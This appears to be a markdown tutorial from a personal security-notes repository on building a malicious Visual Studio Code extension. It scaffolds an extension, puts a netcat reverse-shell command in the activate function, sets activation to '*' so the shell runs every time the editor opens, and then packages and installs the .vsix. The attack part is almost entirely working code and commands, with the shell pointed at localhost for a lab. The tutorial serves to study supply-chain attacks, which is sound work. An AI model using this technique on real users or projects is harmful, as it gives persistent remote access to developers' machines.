

## Introduction
1. Visual Studio Code Extensions can be malicious! I was first introduced to this type of malware in HackTheBox and over the months, I noticed many news about software supply chain compromise due to such malware (Cough [GitHub](https://x.com/github/status/2056949169701720157)). So, I think it is a good idea to explore it a bit.
2. Visual Studio Code is an Electron app which means that VSC extensions are actually just javascript code. This makes it quite easy for malicious actors to write them.

## Commands
1. Install `npm`,`yo`, `generator-code` and VSCode. Also install `vsce` to package the VSCode extension 
```sh
sudo npm install -g yo generator-code
sudo npm install -g vsce
```
2. Create the template for VSCode extension
```sh
yo code
```
Output:
```
     _-----_     ╭──────────────────────────╮
    |       |    │   Welcome to the Visual  │
    |--(o)--|    │   Studio Code Extension  │
   `---------´   │        generator!        │
    ( _´U`_ )    ╰──────────────────────────╯
    /___A___\   /
     |  ~  |     
   __'.___.'__   
 ´   `  |° ´ Y ` 

`list` prompt is deprecated. Use `select` prompt instead.
✔ What type of extension do you want to create? New Extension (JavaScript)
✔ What's the name of your extension? rce-extension
✔ What's the identifier of your extension? rce-extension
✔ What's the description of your extension? Test extension for RCE
✔ Enable JavaScript type checking in 'jsconfig.json'? No
✔ Initialize a git repository? No
`list` prompt is deprecated. Use `select` prompt instead.
✔ Which package manager to use? npm
```
3. The main malicious code will be stored in `extension.js`
```js
/**
 * @param {vscode.ExtensionContext} context
 */
function activate(context) {

	// malicious code here
}

// This method is called when your extension is deactivated
function deactivate() {}

module.exports = {
        activate,
        deactivate
}
```
4. In my case, I will just use a common reverse shell command.
```js
const vscode = require('vscode');

/**
 * @param {vscode.ExtensionContext} context
 */
function activate(context) {
	vscode.window.showInformationMessage("RCE executed!");
	// malicious code here
	require('child_process').exec('busybox nc 127.0.0.1 9001 -e sh');
}

// This method is called when your extension is deactivated
function deactivate() {}

module.exports = {
        activate,
        deactivate
}
```
5. Next, set the activation to all (`*`). This is very important or else VSCode will lazy load our extension (Load only if it is needed)
```json
{
  "name": "rce-extension",
  "displayName": "rce-extension",
  "description": "",
  "version": "0.0.1",
  "engines": {
    "vscode": "^1.125.0"
  },
  "categories": [
    "Other"
  ],
  "activationEvents": ["*"], // important
  "main": "./extension.js",
  "contributes": {},
  "scripts": {
    "lint": "eslint .",
    "pretest": "npm run lint",
    "test": "vscode-test"
  },
  "devDependencies": {
    "@types/vscode": "^1.125.0",
    "@types/mocha": "^10.0.10",
    "@types/node": "24.x",
    "eslint": "^10.5.0",
    "@vscode/test-cli": "^0.0.15",
    "@vscode/test-electron": "^3.0.0"
  },
  "overrides": {
    "diff": "^8.0.4",
    "serialize-javascript": "^7.0.6"
  }
}
```
5. Then, package the extension. It seems like we need to delete `README.md` first.
```
vsce package 
```
Output:
```
 WARNING  A 'repository' field is missing from the 'package.json' manifest file.
Do you want to continue? [y/N] y
 WARNING  Using '*' activation is usually a bad idea as it impacts performance.
More info: https://code.visualstudio.com/api/references/activation-events#Start-up
Do you want to continue? [y/N] y
 WARNING  LICENSE.md, LICENSE.txt or LICENSE not found
Do you want to continue? [y/N] y
 DONE  Packaged: /home/kali/Lab/rce-extension2/rce-extension2-0.0.1.vsix (6 files, 2.62KB)

```
6. To install the extension,
```
code --install-extension rce-extension-0.0.1.vsix
```
Output:
```
Installing extensions...
Extension 'rce-extension-0.0.1.vsix' was successfully installed.
```
7. The reverse shell will be executed every time VSCode is opened.

## Reference
https://web.archive.org/web/20230831181020/https://www.mdsec.co.uk/2023/08/leveraging-vscode-extensions-for-initial-access/
